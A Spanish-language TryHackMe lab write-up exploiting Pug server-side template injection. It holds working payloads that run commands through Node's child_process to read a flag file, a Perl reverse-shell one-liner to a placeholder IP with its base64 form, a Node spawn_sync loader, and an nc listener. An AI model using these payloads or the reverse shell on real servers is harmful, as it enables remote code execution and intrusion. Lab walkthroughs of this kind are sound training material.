









# Templates

Al iniciar el laboratorio, recibimos el siguiente mensaje.

```
My favourite type of dog is a pug... and, you know what, Pug is my favourite templating engine too! I made this super slick application so you can play around with Pug and see how it works. Seriously, you can do so much with Pug!

  

Access this challenge by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the  "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: [HTTP://10.201.13.29:5000](HTTP://10.201.13.29:5000)
```

Dado que ya tenemos acceso al sitio web que se va a explotar, podemos proceder sin necesidad de realizar una enumeración previa.

Al visitar el sitio web, encontramos el siguiente código:

```
doctype html
head
  title Pug
  script.
    console.log("Pugs are cute")
h1 Pug - node template engine
#container.col
  p You are amazing
  p Pug is a terse and simple templating language.

```

<figure><figcaption></figcaption></figure>

Además, el mensaje de inicio y la página web nos proporcionan pistas sobre el vector de explotación, indicando que se trata de una vulnerabilidad de `PUG` con `SSTI`.

> La inyección de la plantilla del lado del servidor (SSTI) ocurre cuando un atacante puede inyectar código malicioso en una plantilla del lado del servidor, lo que hace que el servidor ejecute comandos arbitrarios. En el contexto de JavaScript, las vulnerabilidades SSTI pueden surgir al usar motores de plantilla del lado del servidor como manillares, EJ o PUG, donde la entrada del usuario se integra en plantillas sin desinfectación adecuada.

Puedes ver los payloads de `SSTI` con el siguiente enlace:

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/b391de2117d8a62956515772c006f10ac5b2f962/Server%20Side%20Template%20Injection/JavaScript.md?plain=1#L28" %}

Utilizaremos la siguiente inyección:

```
#{7*7}
```

<figure><figcaption></figcaption></figure>

Como resultado, debemos obtener la resolución de la multiplicación para determinar si es posible inyectar código del lado del servidor.

<figure><figcaption></figcaption></figure>

Como se observó anteriormente, es posible ejecutar código del lado del servidor. Para ello, podemos probar varios payloads. Después de un tiempo, notamos que este payload en particular aparece con mayor frecuencia durante nuestros intentos.

```
#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}
```

Debería mostrarnos el listado de archivos en la carpeta o directorio correspondiente. Sin embargo, al ejecutarlo, recibimos el siguiente error.

<figure><figcaption></figcaption></figure>

Esto ocurre debido a los permisos necesarios para ejecutar el comando de `process`. Para solucionarlo, simplemente debemos eliminar la palabra `root` del comando, y el payload quedaría de la siguiente manera.

```
#{process.mainModule.require('child_process').spawnSync('ls').stdout}
```

<figure><figcaption></figcaption></figure>

Como podemos ver a continuación, ahora obtenemos el listado de archivos en el directorio actual, donde encontramos el único archivo `flag.txt`.

<figure><figcaption></figcaption></figure>

Al intentar recuperar el archivo utilizando el comando `cat flag.txt`, nos damos cuenta de que no aparece nada. Esto se debe a que, al usar `spawnSync('cat flag.txt')`, estamos intentando pasar todo el comando y sus argumentos como una sola cadena. Este enfoque no funciona como se esperaba, ya que `spawnSync` no divide automáticamente una cadena en un comando y sus argumentos. En su lugar, trata toda la cadena como un único comando, que no puede encontrar y, por lo tanto, no puede ejecutar.

<figure><figcaption></figcaption></figure>

Para solucionar esto con la función `spawnSync `, esta diseñada para ejecutar un comando en el shell y proporcionar un control detallado sobre la entrada y salida del comando. Forma parte del módulo `child_process `de `Node.js`, que `Node.js `permite ejecutar otros procesos en el sistema en el que se está ejecutando.  
  
La firma de la función para `spawnSync` es:

```javascript
spawnSync(command, [args], [options])
```

  
* **command**: Se trata de una cadena que especifica el comando que se va a ejecutar.  
- **args**: Esta es una matriz de argumentos de cadena para pasar al comando.  
- **options**: Este es un parámetro opcional que puede especificar varias opciones, como el directorio de trabajo, las variables de entorno, la entrada, la salida, el tiempo de espera, etc.

Por esto nuestro comando quedaría de la siguiente manera.

```
#{process.mainModule.require('child_process').spawnSync('cat', ['flag.txt']).stdout}
```

Con esto, ya podemos recuperar nuestra bandera.

<figure><figcaption></figcaption></figure>

# Shell

Para obtener una shell dentro del servidor, podemos utilizar el siguiente comando de reverse shell.

```
use Socket;$i="<your-ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Lo codificamos en `base64`.

```
dXNlIFNvY2tldDskaT0iYXNkIjskcD13ZXc7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307
```

A continuación, utilizaremos el siguiente payload para ejecutarlo, reemplazando el valor de `payload=` con nuestra reverse shell.

```
#{spawn_sync = this.process.binding('spawn_sync')}
#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}}
#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}}
#{payload='<your-Payload>'}
#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
```

Iniciamos Netcat en modo escucha para obtener una reverse shell y, con ello, nuestra bandera.

```
nc -lvnp 4242
```


<figure><figcaption></figcaption></figure>

*********************

>Imagina que al leer un libro no tuvieras la opción de regresar a la página anterior. ¿Con qué cuidado leerías ese libro? 
>
>**Así es la vida:** se vive un día a la vez, pero si no prestas atención y no la disfrutas, no tendrás forma de revivir esos momentos en el futuro, al igual que puedes volver a leer una página que pasaste por alto.

><figure><figcaption></figcaption></figure>